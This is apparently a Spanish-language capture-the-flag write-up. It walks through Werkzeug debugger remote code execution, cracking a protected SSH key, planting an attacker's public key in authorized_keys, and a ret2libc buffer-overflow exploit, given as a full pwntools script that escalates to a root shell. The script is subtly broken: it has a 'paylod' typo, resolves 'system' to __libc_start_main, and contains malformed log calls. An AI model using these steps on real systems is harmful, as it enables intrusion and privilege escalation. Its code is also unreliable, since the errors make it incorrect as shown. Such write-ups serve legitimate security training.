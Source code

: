 ## Tecnicas utilizadas
-   Abusing Werkzeug Debugger (RCE)
-   Binary Exploitation
-   Advanced Buffer Overflow x64 - ROP / ASLR Bypass (Leaking Libc Address + Ret2libc + Setuid)
## Procedimiento
- RCE al generar un error con el gestor WerkZeug, otorga una consola de python y podemos ejecutar comandos desde ahi.
- ssh2john para desencriptar al ID_RSA que esta protegina con contraseña.
- Meter nuestra clave publica al authoraized key del .ssh del usuario victima.
- Observar los archivos que podemos leer siendo del grupo **adm**
- Crear diccionario personalizado con los filtros encontrados en la paginas.
- Utilizar **ltrace** para ver un poco mas en detalle el flujo del binario. Probar con **ldd** para comprobar si el ASRL esta activado(*Se lanza sobre el script*). Filtramos por *libc* y creamos un bucle para ver sin hay alteatorización, esto tambien se puede comprobar si tiramos un cat sobre /proc/sys/kernel/randomize_va_space, si el resultado da 0 es que esta desactivado.
- Nos pasamos el binary a nuestra maquina. Lanzamos un **checksec** para saber si tiene el *Data Execution Prevention*(**Si lo esta, lo que quiere decir es que no podremos inyectar shell code**). 
- Traer el *libc* de la maquina victima a la maquina atacante.
- usar **gdb** para analizar el binario y su ejecucion en busca del Buffer Overflow. Tenemos que fijarnos en el **$rsp**. No screamos una lista de letras aleatorias con ``pattern create``
- Le pasamos el **$rsp** al pattern offset para que nos diga en que cadena de carecteres se acontece. Printeamos la cadena de carecteres necesarios para sobreescribir el **\$rsp**(podemos utilizar python para mayor comodida ``python -c  'print("A"*136 + "B"*8)'``)
-> Python Scripting(bof):
```python
from pwn import *

# Functions
def def_handler(sig,frame):
	print("\n\n[!] Saliendo...")
	sys.exit(1)

def leak_libc_adress(p, elf, libc, rop):
	
	# PUTS(__libc_main_start)
	# rdi, rsi, rdx, rcx, r8, r9
	# gadget -> pop rdi, ret
	# rdi -> __libc_main_start
	# PUTS() -> rdi -> __libc_main_start -> PUTS(__libc_main_start)
	
	POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0]
	# log.info("pop rdi -> %s" % hex(POP_RDI))
	LIBC = elf.symbols["__libc_start_main"]
	MAIN = elf.symbols["main"]
	PUTS = elf.plt["puts"]
	
	offset = 136
	payload = b"A"*offset 
	payload += p64(POP_RDI)
	payload += p64(LIBC)
	payload += p64(PUTS)
	payload += p64(MAIN)
	
	p.recvuntil(b"password:")
	p.sendline(payload)
	
	p.recvline()
	p.recvline()
	leaked_libc = p.recvline().strip()
	leaked_libc = u64(leaked_libc.ljust(8, b"\x00"))
	
	# log.info("leaked libc address ->" % hex(leaked_libc))
	
	return leaked_libc

def shell(p, elf, libc, rop):
	
	# system("/bin/sh")
	# rdi, rsi, rdx, rcx, r8, r9
	# gadget -> pop rdi, ret
	# rdi -> "/bin/sh"
	# system() -> rdi? -> "/bin/sh" -> system("/bin/sh")
	RET = (rop.find_gadget(['ret']))[0]
	POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0]
	BIN_SH = next(libc.search(b"/bin/sh"))
	SYSTEM = libc.sym["__libc_start_main"]
	
	offset = 136
	payload = b"A"*offset
	paylod += p64(RET)
	payload += p64(POP_RDI)
	payload += p64(BIN_SH)
	payload += p64(SYSTEM)
	
	p.recvuntil(b"password:")
	p.sendline(payload)
	p.interactive()

def setuid(p, elf, libc, rop):
	
	#setuid(0)
	#gadget -> pop rdi, ret
	#rdi -> 0
	#setuid() -> rdi -> 0
	
	POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0]
	SETUID = libc.sym["setuid"]
	MAIN = elf.symbols['main']
	
	offset = 136
	payload = b"A"*offset
	payload += p64(POP_RDI)
	payload += p64(0)
	payload += p64(SETUID)
	payload += p64(MAIN)
	
	p.recvuntil(b"password:")
	p.sendline(payload)

#ctrl + c
signal.signal(signal.SIGINT, def_handler)

if __name__ == "__main__":

	#Establishing connection 
	r = ssh(host='<victim-ip>', user='<user>', password='<password>')
	p = r.process("<binary or program to launch>")
	
	elf = ELF("<./binary>")
	libc = ELF("<./libc>")
	rop = ROP(elf)
	
	leaked_libc_address = leak_libc_adress(p, elf, libc, rop)
	
	# Real leak_libc_address
	libc.address = leaked_libc_address - libc.sym["__libc_start_main"]
	
	log.info("real leaked_libc_address " % hex(libc.address))
	setuid(p, elf, libc, rop)
	shell(p, elf, libc, rop)
```